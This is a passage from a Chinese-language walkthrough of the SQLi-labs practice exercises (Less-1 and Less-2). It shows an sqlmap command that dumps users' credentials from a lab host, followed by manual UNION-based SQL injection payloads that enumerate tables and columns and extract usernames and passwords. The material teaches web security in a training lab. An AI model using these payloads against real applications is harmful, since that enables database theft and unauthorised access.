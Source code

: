 ```
sqlmap.py -u "http://119.45.55.187/Less-1/?id=1" -D security  -T users -C username,password --dump
```

![image-20201110141335938](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110141335938.png)



## 0X02Less-2

**Error based - Intiger based (基于错误的GET整型注入)**

数字型注入

```
?id=1 and 1=1  //正常
```

![image-20201110141655754](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110141655754.png)

```
?id=1 and 1=2  //报错
```

order by 确定字段长度为3

![image-20201110142055605](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110142055605.png)

![image-20201110142035864](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110142035864.png)



union 爆破

![image-20201110142221789](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110142221789.png)

![image-20201110142746790](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110142746790.png)

```
?id=1 and 1=2 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+
```

![image-20201110143000912](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110143000912.png)

```
?id=1' AND 1=2 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users') --+
```

![image-20201110143117098](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110143117098.png)

```
?id=1' AND 1=2 union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+
```

![image-20201110143305931](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110143305931.png)
